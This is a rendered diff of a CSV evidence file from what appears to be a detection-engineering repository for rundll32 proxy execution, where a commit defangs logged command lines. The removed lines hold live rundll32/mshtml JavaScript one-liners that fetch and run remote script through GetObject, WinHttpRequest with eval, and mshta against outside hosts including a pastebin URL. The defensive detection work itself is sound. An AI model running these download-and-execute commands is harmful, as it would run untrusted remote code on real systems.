

Before and after one commit to rahman56661/cyberion-threatshield, a CSV file: results/evidence/DET-005_rundll32_proxy_exec.csv, drawn as a sheet; only a part is shown; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/results/evidence/DET-005_rundll32_proxy_exec.csv
+++ b/results/evidence/DET-005_rundll32_proxy_exec.csv
-G2 (CommandLine): …/c rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/op7ic/EDR-Testing-Script/master/Payloads/test")
+G2 (CommandLine): …/c rundll32.exe javascript[:]"\..\mshtml,RunHTML[App] ";document.write();GetObject[(]"script:hxxps://raw.githubusercontent.com/op7ic/EDR-Testing-Script/master/Payloads/test")
-G3 (CommandLine): rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/op7ic/EDR-Testing-Script/master/Payloads/test")
+G3 (CommandLine): rundll32.exe javascript[:]"\..\mshtml,RunHTML[App] ";document.write();GetObject[(]"script:hxxps://raw.githubusercontent.com/op7ic/EDR-Testing-Script/master/Payloads/test")
-G4 (CommandLine): …/c rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new0ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new0ActiveXObject("WScript.Shell").Run("cmd /c taskkill…
+G4 (CommandLine): …/c rundll32.exe javascript[:]"\..\mshtml,RunHTML[App] ";document.write();h=new0ActiveX[Object]("WScript[.]Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new0ActiveX[Object]("WScript[.]Shell").Run("cmd /c taskkill…
-G5 (CommandLine): rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new0ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new0ActiveXObject("WScript.Shell").Run("cmd /c taskkill…
+G5 (CommandLine): rundll32.exe javascript[:]"\..\mshtml,RunHTML[App] ";document.write();h=new0ActiveX[Object]("WScript[.]Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new0ActiveX[Object]("WScript[.]Shell").Run("cmd /c taskkill…
-G6 (CommandLine): …&& %%TEMP%%\out.exe javascript:"\..\mshtml RunHTMLApplication ";document.write();h=new%%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://pastebin.com/raw/y2CjnRtH",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill…
+G6 (CommandLine): …&& %%TEMP%%\out.exe javascript[:]"\..\mshtml RunHTML[App] ";document.write();h=new%%20ActiveX[Object]("WinHttp.WinHttpRequest.5.1");h.Open("GET","hxxp://pastebin.com/raw/y2CjnRtH",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%%20ActiveX[Object]("WScript[.]Shell").Run("cmd /c taskkill…
-G7 (CommandLine): …/C rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%%20ActiveXObject("WScript.Shell").run("mshta https://hotelesms.com/talsk.txt",0,true);
+G7 (CommandLine): …/C rundll32.exe javascript[:]"\..\mshtml,RunHTML[App] ";document.write();h=new%%20ActiveX[Object]("WScript[.]Shell").run("mshta hxxps://hotelesms.com/talsk.txt",0,true);
-G8 (CommandLine): rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%%20ActiveXObject("WScript.Shell").run("mshta https://hotelesms.com/talsk.txt",0,true);
+G8 (CommandLine): rundll32.exe javascript[:]"\..\mshtml,RunHTML[App] ";document.write();h=new%%20ActiveX[Object]("WScript[.]Shell").run("mshta hxxps://hotelesms.com/talsk.txt",0,true);
```
Also changed, not shown: results/evidence/COR-004_bitsadmin_abuse_corr.csv, results/evidence/DET-004_regsvr32_scriptlet_exec.csv, 37 other files.
